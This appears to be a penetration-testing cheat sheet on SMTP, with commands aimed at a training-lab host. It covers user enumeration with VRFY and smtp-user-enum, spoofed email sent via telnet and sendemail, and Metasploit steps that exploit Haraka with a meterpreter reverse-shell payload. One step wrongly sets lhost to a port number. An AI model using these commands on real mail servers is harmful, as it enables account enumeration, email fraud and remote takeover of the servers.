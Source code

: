 # Table of Contents
1. Overview
	1. ports
2. Tools
	1. netcat
	2. telnet
	3. [smtp-user-enum](#smtp-user-enum)
	4. [sendmail](#sendmail)
	5. [msfconsole](#msfconsole)

---

# Overview
Simple Mail Transfer Protocol

## Ports
25

---

# Tools
## netcat
Can use netcat to log into server manually
```bash
nc demo.ine.local 25
```

```bash
VRFY admin@openmailbox.xyz
```

## telnet
telnet can be used to check supported commands/capabilities
```bash
telnet demo.ine.local 25
HELO attacker.xyz
EHLO attacker.xyz
```

Can use telnet login to draft an email
```bash
telnet demo.ine.local 25
HELO attacker.xyz
mail from: admin@attacker.xyz
rcpt to:root@openmailbox.xyz
data
Subject: Hi Root
Hello,
This is a fake mail sent using telnet command.
From,
Admin
.
```

## smtp-user-enum

```bash
smtp-user-enum -U /usr/share/commix/src/txt/usernames.txt -t demo.ine.local
```

## sendmail

```bash
sendemail -f admin@attacker.xyz -t root@openmailbox.xyz -s demo.ine.local -u Fakemail -m "Hi root, a fake from admin" -o tls=no
```

## msfconsole
### Example
1. `db_nmap -sV -O demo.ine.local` : scan and import
2. `search type:exploit name:haraka` : search for service found
3. `use exploit/linux/smtp/haraka`
	1. `options` : view options to set
	2. `set SRVPORT 9898` : local listen port, changed because payload
	3. `set email_to root@attackdefense.test` : to yourself?
	4. `set payload linux/x64/meterpreter_reverse_http`
	5. `set lhost 8080` : set payload lhost